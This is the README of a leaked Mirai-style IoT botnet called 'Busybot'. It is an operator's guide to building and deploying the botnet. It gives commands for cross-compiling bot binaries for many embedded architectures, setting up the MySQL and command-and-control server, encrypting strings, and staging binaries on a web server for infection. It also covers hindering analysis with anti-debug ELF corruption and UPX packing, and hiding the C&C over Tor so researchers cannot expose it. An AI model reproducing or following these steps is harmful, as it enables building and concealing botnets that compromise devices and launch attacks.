 ~ Busybot (1.6.a)

 - This isn't done, i only leaked it cause:
   A. shit source\
   B. learning C++\
   C. reason for motivation\

 ~ Features:
   - Good evasion for standard library functions
   - Custom memory allocation
   - Fresh new attack parser
   - /proc/$pid/exe locker

 ~ Requirements:
   - CNC (recommended)
     - Ubuntu (x86)
     - 4GB Ram
     - 2vCores
     - 100MB Portspeed

   - Scan (recommended)
     - Debian (x86)
     - 6GB Ram
     - 4vCores
     - 1GB Portspeed

 ~ [1.0] Dependency installation:
   ```
   apt-get install gcc electric-fence wget mysql-server mysql-client apache2 screen golang -y
   ```

 ~ [1.1] Cross compiler installation:
 ```
   mkdir /etc/xcompile
   cd /etc/xcompile
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
   tar -jxf cross-compiler-armv4l.tar.bz2
   tar -jxf cross-compiler-i586.tar.bz2
   tar -jxf cross-compiler-m68k.tar.bz2
   tar -jxf cross-compiler-mips.tar.bz2
   tar -jxf cross-compiler-mipsel.tar.bz2
   tar -jxf cross-compiler-powerpc.tar.bz2
   tar -jxf cross-compiler-sh4.tar.bz2
   tar -jxf cross-compiler-sparc.tar.bz2
   rm *.tar.bz2
   mv cross-compiler-armv4l armv4l
   mv cross-compiler-i586 i586
   mv cross-compiler-m68k m68k
   mv cross-compiler-mips mips
   mv cross-compiler-mipsel mipsel
   mv cross-compiler-powerpc powerpc
   mv cross-compiler-sh4 sh4   
   mv cross-compiler-sparc sparc
```

 ~ [1.2] Cross compiler setup:
 ```
   nano ~/.bashrc -> Paste in the following lines:
   export PATH=$PATH:/etc/xcompile/armv4l/bin
   export PATH=$PATH:/etc/xcompile/armv6l/bin
   export PATH=$PATH:/etc/xcompile/i586/bin
   export PATH=$PATH:/etc/xcompile/m68k/bin
   export PATH=$PATH:/etc/xcompile/mips/bin
   export PATH=$PATH:/etc/xcompile/mipsel/bin
   export PATH=$PATH:/etc/xcompile/powerpc/bin
   export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
   export PATH=$PATH:/etc/xcompile/sh4/bin
   export PATH=$PATH:/etc/xcompile/sparc/bin
   function compile_bot {
       "$1-gcc" -std=c99 $3 bot/*.c -O3 -fomit-frame-pointer -fdata-sections -ffunction-sections -Wl,--gc-sections -o release/"$2" -DMIRAI_BOT_ARCH=\""$1"\"
       "$1-strip" release/"$2" -S --strip-unneeded --remove-section=.note.gnu.gold-version --remove-section=.comment --remove-section=.note --remove-section=.note.gnu.build-id --remove-section=.note.ABI-tag --remove-section=.jcr --remove-section=.got.plt --remove-section=.eh_frame --remove-section=.eh_frame_ptr --remove-section=.eh_frame_hdr
   }
```

~ [2.0] MySQL Setup:
```
   service mysql start
   mysql
```
     `USE mysql;`
     `ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password by 'mynewpassword';`
     `FLUSH PRIVILEGES;`
     `exit;`
```
   cat db.sql | mysql -pmynewpassword
```
 ~ [2.1] C&C Setup:
   - api/assets/config.json for editing the hosts
 
 ```
   cd api/
   go build
   rm -rf main.go core
   screen ./busybot
```

 ~ [2.3] Bot Setup:
   - tools/gen_keys.c for generating xor keus
   - tools/enc.c for encrypting strings
   - Change the domains in /bot/table.c (Set the domain to a onion domain if you want Tor)
   - Change the fake IP/Port in /bot/headers/includes.h
   - Change the SIP in /bot/headers/includes.h (single instance port)

```
   mkdir release/
   mkdir /var/www/html/bins
   compile_bot i586 x86 "-static"
   compile_bot mips mips "-static"
   compile_bot mipsel mpsl "-static"
   compile_bot armv4l arm "-static"
   compile_bot armv5l arm5n
   compile_bot armv6l arm7 "-static"
   compile_bot powerpc ppc "-static"
   compile_bot sparc spc "-static"
   compile_bot m68k m68k "-static"
   compile_bot sh4 sh4 "-static"
   compile_bot i586 dbg "-static -DDEBUG"
   cd release
   mv x86 mips mpsl arm arm5n arm7 ppc spc m68k sh4 /var/www/html/bins
```
 ~ [2.4] Elf corruption:
 ```
   gcc tools/anti_debug64.c -oantidbg64
   gcc tools/anti_debug32.c -oantidbg32
```
   => If the architecture is 32bit then use "antidbg32"
    > If the architecture is 64bit then use "antidbg64"
```
   ./antidbg64 release/<bin>
   ./antidbg32 release/<bin>
```
 ~ [2.5] UPX Packing:
```
   apt install upx -y
   upx -9 release/*
```

 ~ Payload installation (CentOS):
 ```
   yum install python2 python3 python3-pip python-pip -y
   python2 tools/payload.py
```

 ~ [3.0] Tor support:
   ~ Let's say you hate InfoSec/Journaling retards, and
     you don't want your botnet to be posted on krebs or
     MalwareMustDie, or stuff like that, what you could
     do is make your botnet completely decentralized and
     actually, busybot gives you complete support to do
     that, now you need 4 servers to do it, and follow
     along the steps.

```
   timedatectl set-timezone America/New_York
   apt install tor iptables ufw apt-transport-https -y

   ~ Now put the following lines in your repo list (/etc/apt/sources.list)
   deb http://deb.torproject.org/torproject.org focal main
   deb-src http://deb.torproject.org/torproject.org focal main

   wget -O- https://deb.torproject.org/torproject.org/A3C4F0F979CAA22CDBA8F512EE8CBC9E886DDD89.asc | sudo apt-key add -
   apt update && apt upgrade -y
   apt install tor deb.torproject.org-keyring -y
   nano /etc/tor/torrc
   ~ Now paste the following lines or find them and uncomment them out
   Nickname NodeNick
   ORPort 8040
   ExitRelay 0
   SocksPort 0
   ControlSocket 0
   ContactInfo your@email.com

   systemctl restart tor@default
   ufw allow 22; ufw allow 443; ufw allow 80; ufw allow 53; ufw allow 21; ufw allow 23
   ufw enable
```

   ~ It's quite recommennded to copy the Tor node keys
```
   scp -r root@200.200.200.200:/var/lib/tor/keys ./
```

   ~ Now your Tor node is: <SERVER IP>:<8040>
     Do this again 4 times on different servers.
